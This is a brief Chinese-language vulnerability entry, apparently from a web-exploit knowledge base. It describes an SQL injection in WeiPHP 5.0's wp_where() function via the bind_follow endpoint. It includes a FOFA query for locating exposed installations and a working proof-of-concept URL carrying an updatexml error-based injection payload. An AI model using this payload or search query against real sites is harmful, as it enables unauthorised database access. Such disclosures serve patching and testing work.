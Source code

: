 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

  <a-checkbox checked>Weiphp5.0</a-checkbox></br>

## FOFA

  <a-checkbox checked>app="WeiPHP"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628497681576-0cd015d8-cfef-4dcc-9f5a-e51a95136802.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```